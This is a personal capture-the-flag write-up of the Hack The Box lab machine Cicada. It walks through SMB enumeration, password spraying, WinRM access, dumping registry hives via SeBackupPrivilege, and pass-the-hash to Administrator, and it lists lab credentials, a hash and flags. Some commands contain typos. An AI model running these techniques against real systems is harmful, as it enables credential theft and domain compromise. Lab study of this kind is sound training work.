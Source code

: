 ```yaml
---
OS: 
date: 
Time Started: 15:10
Time Ended: 18:00
tags:
  - ActiveDirectory
  - HTB
  - Windows
  - Easy
---
```


```table-of-contents
```

# Given

Cicada is an easy-difficult Windows machine that focuses on beginner Active Directory enumeration and exploitation. In this machine, players will enumerate the domain, identify users, navigate shares, uncover plaintext passwords stored in files, execute a password spray, and use the `SeBackupPrivilege` to achieve full system compromise.

## IP: 10.10.11.35

# Steps

## Initial Enumeration

- nmap -sCV -p- 10.10.11.35 -oN enum/nmap.out
- Enumerate SMB shares
    - Null session authentication is available, and HR share is available for listing and reading.
    - Downloaded text file that has a default password
- Time to test for users who might happen to still use this default password (Password Spray).
    - First, look for users of the SMB service. Enumerate smb for user SID's using the guest/anon logon with netexec. (Because we can’t use the guest account to directly list users)
        - `netexec smb 10.10.11.35 -u username -p '' --rid-brute`
    - The list of users and groups generated needs to be cleaned up. Filter for the users with `SidTypeUser` only.
    - Password spray the SMB service for both default usernames and people's names that are associated with this default password.
        - `netexec smb 10.10.11.35 -u ./payloads/users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'`
    - There will be one username `michael.wrightson` that uses the same default password.
- This only gets me access to the SMB service as Michael.Wrightson.
    - Test for shares this user has access to with netexec
        - `nxc smd 10.10.11.35 -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --shares`
        - This user has read access to the HR share, but nothing else.
    - Using this set of credentials, enumerate users of the share
        - `nxc smd 10.10.11.35 -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' —users`
        - This lists out the users of the SMB service, as well as bad password count, and descriptions.
        - The user account `david.orelious` has saved his password in the description `aRt$Lp#7t*VQ!3`
- Listing the shares available to this user shows he can read and write to the DEV share.
- Looking through this share gets us a powershell file called `Backup_Script.ps1`
    - This file is some code to encode a password for a user named `emily.oscars`
    - There is a plaintext password there (`Q!3@Lp#M6b*7t*Vt`)
- Enumerating shares for this user shows she has access to the `C$` share as well. This is where we can obtain an initial foothold

## Initial Foothold

- Use `evil-winrm` to make a connection to the system
    - `evil-winrm -i 10.10.11.35 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'`
    - The user flag is on the desktop

## Lateral Movement to Administrator Account

- The first thing to do when the initial foothold is established is to check for the rights and privilegs of this particular user account.
    - `whoami /all`
- This shows that the user has a privilege enabled called `SeBackupPrivilege` that allows the user to make backups of the system.
- This privilege can be used to backup the SAM and SYSTEM registries and crack them later.
    - Backup registries
        - `reg HKLM\\SAM sam`
        - `reg HKLM\\SYSTEM system`
    - Download them
        - `download sam sam`
- We’ll use the secretsdump module of Impacket to get the hashes from these 2 files.
    - `impacket-secretsdump -sam ./sam -system ./system LOCAL`
    - This gets us the `NTLM` hashes for the users of the system. A Pass The hash attack is viable now.
- Open another win-rm session where we login as the administrator.
    - `win-rm -i 10.10.11.35 -u Administrator -H '2b87e7c93a3e8a0ea4a581937016f341'`
    - We’ve successfully got into the machine as the admin.

# Findings

- Open TCP ports:
    - DNS
        - 53 Simple DNS
    - LDAP
        - 389, 636, 3268, 3269
    - HTTP
        - 5985
    - Kerberos
        - 88
    - MSRPC
        - 135, 593, 62664
    - Netbios
        - 139
    - SMB
        - 445, 139
    - UNKNOWN
        - 464
- Found password reset notice in SMB/HR
    - `Cicada$M6Corpb*@Lp#nZp!8`
- netexec password spray got user who's still using the default password
    - `michael.wrightson`
- Enumeration using the above creds gives a user with access to the DEV share
    - `david.orelious`
- DEV share has a file with creds for another user
    - `Backup_Scripts.ps1`
    - This has creds for user `emily.oscars`
- Emily Oscars has the `SeBackupPrivilege` flag enabled for their account.
    - We can backup her SAM and SYSTEM reg files for cracking later.

# Creds

Credentials found

`michael.wrightson`: `Cicada$M6Corpb*@Lp#nZp!8`

`david.orelious`:`aRt$Lp#7t*VQ!3`

`emily.oscars` : `Q!3@Lp#M6b*7t*Vt`

`Administartor` : `2b87e7c93a3e8a0ea4a581937016f341`

# Flags

- User: 51d5a869664f4522cc2d4ffcc9d939da
- Root: 00a9d8d15217db7909f52fc28127575b

# Proof

![](../../08_Assets/Images/cicada_proof.png)
